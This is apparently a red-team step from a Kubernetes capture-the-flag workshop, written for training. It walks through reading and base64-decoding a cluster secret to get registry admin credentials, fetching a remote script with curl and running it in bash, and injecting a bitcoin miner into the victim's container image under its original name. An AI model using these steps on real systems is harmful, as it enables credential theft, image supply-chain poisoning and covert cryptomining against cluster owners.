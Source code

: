 # The calls are coming from inside the container! Scenario 3 Attack

## Red Team Update

It appears the blue team has again deleted our bitcoinero pods.  It's time to get sneakier.  Instead of trying to deploy new pods into their cluster, let's poke around to see if there's anything we can use.

Lets , let's see if there's any credentials accessible.

```
# In case you need to re-download kubectl
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.28.10/bin/linux/amd64/kubectl; chmod 555 kubectl

# Let's see if there's any secrets left out for us to grab
kubectl get secrets
```

Ooh.  There's something called `acr-secret`.  Let's dig in.
```
kubectl get secrets/acr-secret -o json
```

There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

```
kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq
```

Now we're talking!  It looks like they put the admin credentials for their registry in a secret.  I bet we can use this to both PUSH and PULL new images to their registry.

We can use [Buildah](https://buildah.io/) to create, pull and push container images.  However, we will need escalated privledges.  

Some of the other red-team members have found this [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), which deploy a container that gives us full host access.  Let's work with them to find a way to utilize this.

... TIME PASSES ...

Good luck!  They've come up with two scripts:

* [run-bitcoin-injector.sh](https://github.com/azure/aks-ctf/blob/main/workshop/bitcoin-injector/run-bitcoin-injector.sh) - deploy a [Kubernetes Job](https://kubernetes.io/docs/concepts/workloads/controllers/job/) that uses the registry credentials we found, to create another pod that injects our bitcoin miner into the container
* [inject-image.sh](https://github.com/azure/aks-ctf/blob/main/workshop/bitcoin-injector/inject-image.sh) - Uses Buildah to pulls the current app image, injects the bitcoin miner into the image, re-publishes the image under the same name

Let's go back to our admin panel and run the following:

```console
curl -O -J https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/bitcoin-injector/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
```

Everything has been installed.  Let's kill our process and let the new image come up
```
kubectl delete pod $HOSTNAME
```

The page immediately died (which is understandable since we killed the pod).  Let's reload the page and see if we were successful.  Run the following command in the admin page

```
ps
```

Our `moneymoneymoney` process is there and running inside their container!  Good luck finding that one!